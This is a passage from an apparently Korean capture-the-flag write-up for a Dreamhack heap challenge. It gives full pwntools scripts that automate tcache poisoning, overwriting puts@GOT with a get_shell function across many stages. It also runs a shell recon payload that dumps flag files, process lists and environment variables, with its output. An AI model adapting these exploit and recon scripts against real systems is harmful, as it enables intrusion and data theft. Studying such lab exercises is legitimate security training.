            for j in range(i-1,max(i-5,-1),-1):
                mm=re.search(r"mov\s+rax,QWORD PTR \[rbp-0x([0-9a-f]+)\]",ins[j])
                if mm: fidx.append((arr_base-int(mm.group(1),16))//8); break
    return e.sym['get_shell'], e.got['puts'], fidx[-1]

r=remote(HOST,PORT)
r.recvuntil(b"ready (y/n) ? "); r.sendline(b"y")
blob=r.recvuntil(b"BINARY FIN", timeout=20)
m=re.search(rb"BINARY\(base64encoded\)-+\s*(.*?)\s*-+BINARY FIN", blob, re.S)
elf=base64.b64decode(re.sub(rb"\s+",b"",m.group(1)))
open(SP+"/live.elf","wb").write(elf)
gs, puts_got, head = parse(SP+"/live.elf")
print(f"get_shell={hex(gs)} puts_got={hex(puts_got)} head={head}")
r.recvuntil(b"modify(idx) : "); r.sendline(str(head).encode())
r.recvuntil(b"input data : "); r.send(p64(puts_got)+b"\n")
r.recvuntil(b"input comment : "); r.send(p64(gs)+b"\n")
time.sleep(0.3)
recon = (
 'echo ==A==; cat /tmp/subflag_*.txt; '
 'echo ==B_tmp==; ls -la /tmp; '
 'echo ==C_cmd1==; tr "\\0" " " < /proc/1/cmdline; echo; '
 'echo ==D_root==; ls -la /; '
 'echo ==E_flag==; cat /flag* 2>/dev/null; cat /root/flag* 2>/dev/null; '
 'echo ==F_home==; ls -la /home; ls -la /home/*; '
 'echo ==G_proc==; for p in /proc/[0-9]*/cmdline; do tr "\\0" " " < $p 2>/dev/null; echo; done | sort -u | head -40; '
 'echo ==H_env==; env; echo ==END=='
)
r.sendline(recon.encode())
buf=b""
end=time.time()+8
while time.time()<end:
    try: d=r.recv(timeout=2)
    except: break
    if not d: break
    buf+=d
    if b"==END==" in buf: break
print(buf.decode("latin1"))
r.close()
```

<details>
<summary markdown="span">결과</summary>
<div class="toggle-content" markdown="1">

```python
get_shell=0x40490f puts_got=0x407020 head=6
==A==
SUBFLAG{650c0c1a31469d02cf1e883b33863fb0e1d78597}==B_tmp==
total 44
drwxrwxrwt 1 root      root       4096 Oct 16 07:58 .
dr-xr-xr-x 1 root      root       4096 Oct 16 07:35 ..
-rwxr-xr-x 1 shelluser shelluser 29600 Oct 16 07:58 prob_13kqbkaf
-rw------- 1 shelluser shelluser    49 Oct 16 07:58 subflag_ytpdwttu.txt
==C_cmd1==
socat TCP-LISTEN:9988,reuseaddr,fork EXEC:'python3 /HEAP_AEG.py' 
==D_root==
total 68
dr-xr-xr-x   1 root root     4096 Oct 16 07:35 .
dr-xr-xr-x   1 root root     4096 Oct 16 07:35 ..
-rwxr-x---   1 root heap_aeg 6439 Aug 27 09:59 HEAP_AEG.py
lrwxrwxrwx   1 root root        7 Apr  4  2025 bin -> usr/bin
drwxr-xr-x   2 root root     4096 Apr 15  2020 boot
drwxr-xr-x   8 root root     2540 Oct 16 07:35 dev
drwxr-xr-x   1 root root     4096 Oct 16 07:35 etc
drwxr-xr-x   4 root root     4096 Aug 27 10:00 home
lrwxrwxrwx   1 root root        7 Apr  4  2025 lib -> usr/lib
lrwxrwxrwx   1 root root        9 Apr  4  2025 lib32 -> usr/lib32
lrwxrwxrwx   1 root root        9 Apr  4  2025 lib64 -> usr/lib64
lrwxrwxrwx   1 root root       10 Apr  4  2025 libx32 -> usr/libx32
drwxr-xr-x   2 root root     4096 Apr  4  2025 media
drwxr-xr-x   2 root root     4096 Apr  4  2025 mnt
drwxr-xr-x   2 root root     4096 Apr  4  2025 opt
dr-xr-xr-x 107 root root        0 Oct 16 07:35 proc
drwx------   3 root root     4096 Aug 27 10:00 root
drwxr-xr-x   5 root root     4096 Aug 27 09:59 run
lrwxrwxrwx   1 root root        8 Apr  4  2025 sbin -> usr/sbin
drwxr-xr-x   2 root root     4096 Apr  4  2025 srv
dr-xr-xr-x  11 root root        0 Oct 16 07:35 sys
drwxrwxrwt   1 root root     4096 Oct 16 07:58 tmp
drwxr-xr-x   1 root root     4096 Apr  4  2025 usr
drwxr-xr-x  11 root root     4096 Apr  4  2025 var
==E_flag==
==F_home==
total 16
drwxr-xr-x 4 root root 4096 Aug 27 10:00 .
dr-xr-xr-x 1 root root 4096 Oct 16 07:35 ..
drwxr-xr-x 2 root root 4096 Aug 27 10:00 heap_aeg
drwxr-xr-x 2 root root 4096 Aug 27 10:00 shelluser
/home/heap_aeg:
total 8
drwxr-xr-x 2 root root 4096 Aug 27 10:00 .
drwxr-xr-x 4 root root 4096 Aug 27 10:00 ..

/home/shelluser:
total 8
drwxr-xr-x 2 root root 4096 Aug 27 10:00 .
drwxr-xr-x 4 root root 4096 Aug 27 10:00 ..
==G_proc==
/bin/sh 
/tmp/prob_13kqbkaf 
head -40 
python3 /HEAP_AEG.py 
sh -c /bin/sh 
socat TCP-LISTEN:9988,reuseaddr,fork EXEC:'python3 /HEAP_AEG.py' 
sort -u 
==H_env==
HOSTNAME=localhost
SOCAT_PEERADDR=61.72.147.93
HOME=/root
SOCAT_PEERPORT=57134
SOCAT_SOCKADDR=10.254.21.126
SOCAT_VERSION=1.7.3.3
container=podman
SOCAT_SOCKPORT=9988
TERM=linux
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
LANG=C.UTF-8
SOCAT_PID=138
PWD=/home/heap_aeg
SOCAT_PPID=1
==END==

---- exit=0 ----
```

</div>
</details>

shell exit 후에 flag 를 낼 수 있음

did you get shell?(y/n) → flag 제출

```python
#!/usr/bin/env python3
import re, base64, subprocess, time
from pwn import remote, ELF, p64, context
context.arch="amd64"; context.log_level="error"
HOST, PORT = "host3.dreamhack.games", 18957
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"
t0=time.time()
def ts(): return f"{time.time()-t0:6.2f}s"

def parse(elf_bytes):
    path=SP+"/live.elf"; open(path,"wb").write(elf_bytes)
    e=ELF(path, checksec=False)
    out=subprocess.check_output(["objdump","-d","--no-show-raw-insn","-M","intel",path],text=True)
    ins=[]; p=False
    for ln in out.splitlines():
        if "<main>:" in ln: p=True
        if p:
            if "\t" in ln: ins.append(ln.split("\t",1)[1].strip())
            elif ln.strip()=="" and ins: break
    arr_base=int(re.search(r"\[rbp\+rax\*8-0x([0-9a-f]+)\]","\n".join(ins)).group(1),16)
    fidx=[]
    for i,l in enumerate(ins):
        if "<free@plt>" in l:
            for j in range(i-1,max(i-5,-1),-1):
                mm=re.search(r"mov\s+rax,QWORD PTR \[rbp-0x([0-9a-f]+)\]",ins[j])
                if mm: fidx.append((arr_base-int(mm.group(1),16))//8); break
    return e.sym['get_shell'], e.got['puts'], fidx[-1]

def exploit(r):
    blob=r.recvuntil(b"BINARY FIN", timeout=15)
    m=re.search(rb"BINARY\(base64encoded\)-+\s*(.*?)\s*-+BINARY FIN", blob, re.S)
    elf=base64.b64decode(re.sub(rb"\s+",b"",m.group(1)))
    gs, puts_got, head = parse(elf)
    r.recvuntil(b"modify(idx) : "); r.sendline(str(head).encode())
    r.recvuntil(b"input data : "); r.send(p64(puts_got)+b"\n")
    r.recvuntil(b"input comment : "); r.send(p64(gs)+b"\n")
    return gs, head

r=remote(HOST,PORT)
r.recvuntil(b"ready (y/n) ? "); r.sendline(b"y")
gs,head=exploit(r)
print(f"[{ts()}] stage1 gs={hex(gs)} head={head}")
time.sleep(0.3)
r.sendline(b"cat /tmp/subflag_*.txt; echo MARKZ")
blob2=r.recvuntil(b"MARKZ", timeout=8)
sub=re.search(rb"SUBFLAG\{[0-9a-f]+\}", blob2).group(0)
print(f"[{ts()}] sub1={sub.decode()}")
r.sendline(b"exit")         # shell exits
r.sendline(b"y")            # answer "Did you get shell? (y/n)"
r.sendline(sub)             # answer "Input subflag :"
# now read: does STAGE 2 binary arrive (advance) ?
acc=b""; end=time.time()+14
while time.time()<end:
    try: d=r.recv(timeout=3)
    except EOFError: acc+=b"<EOF>"; break
    except Exception: break
    if not d: break
    acc+=d
    if b"BINARY FIN" in acc: print(f"[{ts()}] >>> ADVANCED: STAGE2 binary received"); break
    if b"DH{" in acc: print(f"[{ts()}] >>> FLAG"); break
open(SP+"/adv.log","wb").write(acc)
low=acc[:400].decode('latin1','replace')
print(f"[{ts()}] head of post-submit:\n{low}")
if b"STAGE" in acc: print("has STAGE marker")
fm=re.search(rb"DH\{[^}]*\}", acc)
if fm: print("FLAG:", fm.group(0).decode())
r.close()

```

한 스테이지 루프가 아래와 같음

exploit → shell → cat subflag → exit
"[<em>] Did you get shell?"      → y
"[+] Input subflag :"          → subflag
"[</em>] Congrats! Going next level..." → STAGE 2 바이너리

최종 익스는 아래와 같음

```python
#!/usr/bin/env python3
"""dh-heap-aeg full automatic exploit generation.
Per stage: receive fresh binary -> parse (get_shell sym, puts GOT, tcache head
index) -> tcache poison so malloc#2 returns puts@GOT -> overwrite puts@GOT with
get_shell -> puts() fires get_shell=system("/bin/sh") -> read per-stage subflag
-> exit shell -> answer 'y' -> submit subflag -> harness advances. Loop to flag."""
import re, base64, subprocess, time
from pwn import remote, ELF, p64, context
context.arch="amd64"; context.log_level="error"
HOST, PORT = "host3.dreamhack.games", 18957
SP="/mnt/c/Users/jshrb/AppData/Local/Temp/claude/c--Users-jshrb-Desktop-wargame-pwn/15e774b6-6807-41bd-bf93-fcaf53ebe877/scratchpad"
LOG=open(SP+"/full_run.log","wb")
t0=time.time()
def ts(): return f"{time.time()-t0:6.2f}s"

def parse(elf_bytes):
    path=SP+"/live.elf"; open(path,"wb").write(elf_bytes)
    e=ELF(path, checksec=False)
    out=subprocess.check_output(["objdump","-d","--no-show-raw-insn","-M","intel",path],text=True)
    ins=[]; p=False
    for ln in out.splitlines():
        if "<main>:" in ln: p=True
        if p:
            if "\t" in ln: ins.append(ln.split("\t",1)[1].strip())
            elif ln.strip()=="" and ins: break
    arr_base=int(re.search(r"\[rbp\+rax\*8-0x([0-9a-f]+)\]","\n".join(ins)).group(1),16)
    fidx=[]
    for i,l in enumerate(ins):
        if "<free@plt>" in l:
            for j in range(i-1,max(i-5,-1),-1):
                mm=re.search(r"mov\s+rax,QWORD PTR \[rbp-0x([0-9a-f]+)\]",ins[j])
                if mm: fidx.append((arr_base-int(mm.group(1),16))//8); break
    return e.sym['get_shell'], e.got['puts'], fidx[-1]

def do_stage(r, n):
    blob=r.recvuntil(b"BINARY FIN", timeout=15)
    LOG.write(b"\n=STAGE %d=\n"%n+blob[:200]+b"\n"); LOG.flush()
    m=re.search(rb"BINARY\(base64encoded\)-+\s*(.*?)\s*-+BINARY FIN", blob, re.S)
    if not m:
        return None, blob
    elf=base64.b64decode(re.sub(rb"\s+",b"",m.group(1)))
    gs, puts_got, head = parse(elf)
    if b"\n" in p64(gs) or b"\n" in p64(puts_got):
        raise RuntimeError("payload newline byte (bad gs/got)")
    r.recvuntil(b"modify(idx) : ", timeout=8); r.sendline(str(head).encode())
    r.recvuntil(b"input data : ", timeout=8);  r.send(p64(puts_got)+b"\n")
    r.recvuntil(b"input comment : ", timeout=8); r.send(p64(gs)+b"\n")
    time.sleep(0.25)
    r.sendline(b'cat "$(ls -t /tmp/subflag_*.txt 2>/dev/null|head -1)"; echo MARKZ')
    blob2=r.recvuntil(b"MARKZ", timeout=8)
    sm=re.search(rb"SUBFLAG\{[0-9a-f]+\}", blob2)
    if not sm: raise RuntimeError("no subflag: "+blob2[-120:].decode('latin1','replace'))
    sub=sm.group(0)
    r.sendline(b"exit")
    r.sendline(b"y")
    r.sendline(sub)
    return sub, blob

def main():
    r=remote(HOST,PORT)
    r.recvuntil(b"ready (y/n) ? ", timeout=10); r.sendline(b"y")
    subs=[]; n=0; last=b""
    try:
        while n < 500:
            n+=1
            sub, blob = do_stage(r, n)
            if sub is None:
                last=blob; print(f"[{ts()}] no binary at stage {n} (likely final)"); break
            subs.append(sub)
            print(f"[{ts()}] stage {n:3d} solved  sub={sub.decode()[8:16]}..")
    except EOFError:
        print(f"[{ts()}] EOF at stage {n}")
    except Exception as e:
        print(f"[{ts()}] stop at stage {n}: {e}")
    time.sleep(0.3)
    tail=b""
    try:
        while True:
            d=r.recv(timeout=4)
            if not d: break
            tail+=d
    except Exception: pass
    LOG.write(b"\n=TAIL=\n"+last+tail+b"\n"); LOG.flush()
    print(f"[{ts()}] solved {len(subs)} stages")
    whole=last+tail
    print("[TAIL]\n"+whole.decode('latin1','replace')[-1200:])
    fm=re.search(rb"DH\{[^}]*\}", whole)
    if fm: print(f"\n*** REAL FLAG: {fm.group(0).decode()} ***")
    r.close()

main()

```

<div class="box-note" markdown="1">
💬 **페이지 댓글**

- ← 이 바이너리가 서버에서 실행되며 소켓으로 상호작용
- 주소 직접 입력 가능
</div>
